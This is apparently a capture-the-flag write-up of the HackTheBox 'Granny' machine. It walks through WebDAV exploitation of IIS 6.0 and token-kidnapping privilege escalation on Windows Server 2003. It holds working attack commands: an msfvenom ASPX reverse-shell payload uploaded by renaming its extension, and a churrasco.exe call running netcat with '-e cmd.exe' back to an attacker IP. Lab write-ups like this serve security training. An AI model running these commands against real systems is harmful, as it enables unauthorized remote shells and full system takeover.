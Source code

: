 ```yaml
---
description: (Windows; Easy) 10.10.10.15
---
```


# Granny

## Nmap

```bash
# Nmap 7.93 scan initiated Mon Oct 24 18:50:00 2022 as: nmap -vvv -p 80 -Pn -A -oN granny.nmap 10.10.10.15
Nmap scan report for granny.htb (10.10.10.15)
Host is up, received user-set (0.024s latency).
Scanned at 2022-10-24 18:50:00 EDT for 15s

PORT   STATE SERVICE REASON          VERSION
80/tcp open  http    syn-ack ttl 127 Microsoft IIS httpd 6.0
|_http-server-header: Microsoft-IIS/6.0
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT POST
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
|_http-title: Under Construction
| http-webdav-scan:
|   Server Date: Mon, 24 Oct 2022 22:50:10 GMT
|   Server Type: Microsoft-IIS/6.0
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|_  WebDAV type: Unknown
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2003|2008|XP|2000 (92%)
OS CPE: cpe:/o:microsoft:windows_server_2003::sp1 cpe:/o:microsoft:windows_server_2003::sp2 cpe:/o:microsoft:windows_server_2008::sp2 cpe:/o:microsoft:windows_xp::sp3 cpe:/o:microsoft:windows_2000::sp4
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Microsoft Windows Server 2003 SP1 or SP2 (92%), Microsoft Windows Server 2008 Enterprise SP2 (92%), Microsoft Windows Server 2003 SP2 (91%), Microsoft Windows 2003 SP2 (91%), Microsoft Windows XP SP3 (90%), Microsoft Windows 2000 SP4 or Windows XP Professional SP1 (90%), Microsoft Windows XP (87%), Microsoft Windows 2000 SP4 (87%), Microsoft Windows Server 2003 SP1 - SP2 (86%), Microsoft Windows XP SP2 or Windows Server 2003 (86%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.93%E=4%D=10/24%OT=80%CT=%CU=%PV=Y%DS=2%DC=T%G=N%TM=635716A7%P=x86_64-pc-linux-gnu)
SEQ(SP=102%GCD=1%ISR=108%TI=I%II=I%SS=S%TS=0)
OPS(O1=M539NW0NNT00NNS%O2=M539NW0NNT00NNS%O3=M539NW0NNT00%O4=M539NW0NNT00NNS%O5=M539NW0NNT00NNS%O6=M539NNT00NNS)
WIN(W1=FAF0%W2=FAF0%W3=FAF0%W4=FAF0%W5=FAF0%W6=FAF0)
ECN(R=Y%DF=N%TG=80%W=FAF0%O=M539NW0NNS%CC=N%Q=)
T1(R=Y%DF=N%TG=80%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=Y%DF=N%TG=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=S%TG=80%CD=Z)

Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   25.31 ms 10.10.14.1
2   25.30 ms granny.htb (10.10.10.15)

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Oct 24 18:50:15 2022 -- 1 IP address (1 host up) scanned in 15.81 seconds
```

> Services running

Microsoft IIS 6.0 on port 80

## HTTP Port 80

<figure><img src="../../../../.gitbook/assets/Pasted image 20221025171939.png" alt=""><figcaption></figcaption></figure>

### Web Fuzz

<figure><img src="../../../../.gitbook/assets/Pasted image 20221025172111.png" alt=""><figcaption></figcaption></figure>

## Exploiting WebDav

Because the IIS server is running on an unsupported version, I decided to look into potential vulnerabilities, which led me to `WebDav`.

> WebDAV stands for Web Distributed Authoring and Versioning, which is an extension to HTTP that lets clients edit remote content on the web. In essence, WebDAV enables a web server to act as a file server, allowing authors to collaborate on web content. Source: https://www.cloudwards.net/what-is-webdav/

Two useful resources for exploit WebDav are:

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/put-method-webdav" %}

{% embed url="https://null-byte.wonderhowto.com/how-to/exploit-webdav-server-get-shell-0204718/" %}

You can tell what functions are avaiable based on the script scan from Nmap

<figure><img src="../../../../.gitbook/assets/Pasted image 20221025174456.png" alt=""><figcaption></figcaption></figure>

Using the handy tool davtest:

```bash
davtest -url http://granny.htb
```

<figure><img src="../../../../.gitbook/assets/Pasted image 20221025174307.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/Pasted image 20221025174354.png" alt=""><figcaption></figcaption></figure>

So the PUT method works. One thing to note is the files we are allowed to upload and ones that can execute. Knowing this will save us time and unneccessary headaches when trying to get a reverse shell

You can also use cadaver, which allows us to interact with the WebDAV service similary to how you would with FTP. We'll take advantage of this to upload a reverse shell

First we test with PUT

```bash
cadaver http://granny.htb
```

<figure><img src="../../../../.gitbook/assets/Pasted image 20221025174733.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/Pasted image 20221025174935.png" alt=""><figcaption></figcaption></figure>

Now we'll upload a shell. Since .jsp and .php files cannot be executed, we will try a .aspx file, but since that's not allowed to be uploaded, we'll change the file type to .txt pre-upload and then rename it back post-upload.

## Initial Foothold

```bash
# generate revershell shell
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.25 LPORT=443 -f aspx -o shell.aspx

# change file type 
mv shell.aspx shell.txt

# upload file
put shell.txt

# rename file to original format
move shell.txt shell.aspx

# set up a listener to receive a hsell
nc -lnvp 443

# go to brower or use curl to execute shell.aspx
http://granny.htb/shell.aspx
```

<figure><img src="../../../../.gitbook/assets/Pasted image 20221025184942.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/Pasted image 20221025185023.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/Pasted image 20221025185039.png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

```bash
Host Name:                 GRANNY
OS Name:                   Microsoft(R) Windows(R) Server 2003, Standard Edition
OS Version:                5.2.3790 Service Pack 2 Build 3790
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Uniprocessor Free
Registered Owner:          HTB
Registered Organization:   HTB
Product ID:                69712-296-0024942-44782
Original Install Date:     4/12/2017, 5:07:40 PM
System Up Time:            0 Days, 0 Hours, 44 Minutes, 21 Seconds
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x86 Family 6 Model 85 Stepping 7 GenuineIntel ~2294 Mhz
BIOS Version:              INTEL  - 6040000
Windows Directory:         C:\WINDOWS
System Directory:          C:\WINDOWS\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (GMT+02:00) Athens, Beirut, Istanbul, Minsk
Total Physical Memory:     1,023 MB
Available Physical Memory: 766 MB
Page File: Max Size:       2,470 MB
Page File: Available:      2,306 MB
Page File: In Use:         164 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 1 Hotfix(s) Installed.
                           [01]: Q147222
Network Card(s):           N/A
```

Privledge escalation was a pain.

Because of how old the box is, most likely people will use Windows Exploit Suggester and similar. While you _could_ use this, it most likely will spit out hundreds of vulnerabilities. Even filtering will leave you with probably 50\~ There are a couple of things you could do and I'm sure there are a dozen ways to get `NT Authority\System` on this machine, but I chose this route:

First type `whoami && whoami /priv`

<figure><img src="../../../../.gitbook/assets/Pasted image 20221028221539.png" alt=""><figcaption></figcaption></figure>

&#x20;Seeing this being enabled is very nice and comes in handy for the priv esc route I took.

I searched up on Google `windows server 2003 sp2 local privesc` which led me to this https://www.exploit-db.com/exploits/6705 You can review the presentation on TokenKidnapping [here](https://dl.packetstormsecurity.net/papers/presentations/TokenKidnapping.pdf)

> Basically if you can run code under any service in Win2k3 then you can own Windows, this is because Windows services accounts can impersonate. Other process (not services) that can impersonate are IIS 6 worker processes, so if you can run code from an ASP .NET or classic ASP web application then you can own Windows too.

So we see here that we're a network service account and this service account can impersonate, which means we can run some code that can make us `NT Authority\System`! You can get the .exe file [here](https://github.com/Re4son/Churrasco/) and learn how to use it for priv esc [here](https://medium.com/@nmappn/windows-privelege-escalation-via-token-kidnapping-6195edd2660e) I went for the route where I receive a reverse shell, so I uploaded nc and the binary using the same technique to get the initial foothold.

Before running the exploit, if you don't specify the exact path of where netcat is, then you'll see the following error&#x20;

<figure><img src="../../../../.gitbook/assets/Pasted image 20221028221216.png" alt=""><figcaption></figcaption></figure>

Searching up the error led me to this post on stack overflow&#x20;

{% embed url="https://stackoverflow.com/questions/34924089/windows-7-netcat-error-nc-is-not-recognized-as-an-internal-or-external-comman" %}

After specifying the path, you should receive a callback

```bash
churrasco.exe "c:\inetpub\wwwroot\nc.exe 10.10.14.4 443 -e cmd.exe"
```

<figure><img src="../../../../.gitbook/assets/Pasted image 20221028215839.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/Pasted image 20221028221419.png" alt=""><figcaption></figcaption></figure>
